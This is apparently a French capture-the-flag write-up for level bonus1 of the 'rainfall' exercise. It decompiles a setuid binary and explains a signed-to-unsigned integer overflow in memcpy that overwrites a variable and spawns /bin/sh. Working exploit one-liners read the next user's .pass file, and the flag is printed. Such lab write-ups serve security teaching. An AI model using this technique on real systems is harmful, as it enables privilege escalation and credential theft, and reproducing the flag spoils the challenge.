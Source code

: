 # rainfall : [bonus1]

Observations:
---

#### Source décompilée:
```c
int main(int argc, const char **argv, const char **envp)
{
  char dest[40];
  int v5; 

  v5 = atoi(argv[1]);
  if ( v5 > 9 )
    return 1;
  memcpy(dest, argv[2], 4 * v5);
  if ( v5 == 1464814662 )
    execl("/bin/sh", "sh", 0);
  return 0;
}
```

#### Entrées du programme:
| Nom | Description |
| --- | ----------- |
| `argv[1]` | Une chaîne de caractères |
| `argv[2]` | Une chaîne de caractères |

#### Détails du programme:
```bash
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

#### Fonction:
| Nom | Description |
| --- | ----------- |
| `<main>` | Cette fonction convertis `argv[1]` en entier dans la variable `v5` puis sort de la fonction `<main>` en retournant **1** si `v5` est plus grand que **9**. <br> Elle copie ensuite `(4 * v5)` octets de `argv[2]` dans `dest` qui est un tableau de **40** octets. <br> Pour finir elle compare la valeur de `v5` à la valeur **1464814662**, si la comparaison est correcte la fonction execute `/bin/sh`. |

#### Conclusions:
La première condition est supposée nous empécher de créer un dépassement de mémoire mais nous pouvons outrepasser cela. \
En effet le résultat de `<atoi>` est un entier mais `<memcpy>` prend en paramètre un entier multiplié par **4** qui de plus est convertis en entier non signé. \
Nous pouvons donc trouver une valeur négative qui une fois convertie et multipliée dépassera la limite de **9** . \
Nous permettant ainsi de changer l'ordre d'exécution en écrasant la valeur de `v5`.

----
Résolution:
----
Pour trouver une valeur de `v5` qui une fois multipliée par **4** déborde suffisament pour tomber sur le nombre 44. \
Nous devons viser la valeur **11**, mais nous devons aussi entrer un chiffre négatif pour pouvoir passer la première condition. \
Multiplier par **4** reviens a déplacer un nombre de **2** bits vers la gauche tout en perdant les informations qui débordes. \
Car une fois une analyse du programme plus approfondie en asembleur on peut voir qu'un simple décalage d'adresse est effectué dans la mémoire.

> Cette ligne cause le décalage de bits: '0x8048453 <main+47>     lea    0x0(,%eax,4),%ecx'

Nous pouvons donc écrire le nombre **11** en binaire et mettre le bit le plus grand à **1** pour le transformer en nombre négatif. \
À vrai dire nous pouvons de plus ajouter le bit juste en dessous à **1** vu que la multiplications par **4** reviens à enlever les **2** bits de gauche.\
Les solutions ce trouvant êtres **-1073741813** ou **-2147483637** :
| décimal | binaire |
| ------: | ------: |
|	      11	| 00000000 00000000 00000000 00001011
|-2147483637	| 10000000 00000000 00000000 00001011
|-1073741813	| 11000000 00000000 00000000 00001011

Il ne me reste plus qu'a remplir le buffer de **40** octets aléatoires puis de la valeur de `v5` voulue en hexadécimal et little endiane, ce qui écrasera \
la valeur de `v5` par dépassement de tableau puis ensuite d'ajouter la commande pour afficher la clef de l'utilisateur supérieur.

#### Commandes:
```bash
./bonus1 -2147483637 $(python -c "print('a'*40 +'\x57\x4f\x4c\x46'[::-1])") <<<'cat /home/user/bonus2/.pass'
```
ou
```bash
./bonus1 -1073741813 $(python -c "print('a'*40 +'\x57\x4f\x4c\x46'[::-1])") <<<'cat /home/user/bonus2/.pass'
```

**Flag :** 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
